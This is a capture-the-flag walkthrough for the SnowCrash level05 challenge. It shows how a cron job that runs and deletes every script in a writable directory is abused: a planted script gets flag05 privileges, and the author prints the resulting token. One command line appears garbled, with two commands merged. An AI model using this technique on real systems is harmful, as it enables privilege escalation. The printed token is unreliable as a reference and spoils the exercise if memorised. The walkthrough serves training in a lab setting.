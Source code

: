 
-> ls -la

too easy .. nothing interesting

-> find /var /home /etc -iname '*level05*' 2>/dev/null

/var/mail/level05

-> cat /var/mail/level05

*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

So apparently /usr/sbin/openarenaserver is executed every 2 minutes

let's check this file's rights :

-> ls -la /usr/sbin/openarenaserver

-rwxr-x---+ 1 flag05 flag05 ... /usr/sbin/openarenaserver

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$


This code will make that All files in /opt/openarenaserver will be
executed (with bash) and then deleted. This is a “one-shot” runner
that executes whatever it finds.

So knowing this, we could try to make it execute getflag :)

To do so is needed to keep in mind that the level05 user has the
rights and could create files with scripts. In orther that a script
could be executed, it needs to be quick enought, as every process
will be killed if too long and all files in the directory will be
deleted.

So to write a small script in /opt/openarenaserver which, when 
executed by the runner, will launch /bin/getflag and send its output
to /tmp/tempLevel05 — useful for retrieving the flag if the runner is
running with the necessary permissions :

-> echo "/bin/getflag > /tmp/tempLevel05" > /opt/openarenaserver/tempLevel05

-> cat /opt/openarenaserver/tempLevel05/bin/getflag > /tmp/tempLevel05

After 2 minutes :

-> cat /tmp/tempLevel05

Check flag.Here is your token : viuaaale9huek52boumoomioc

-> su level06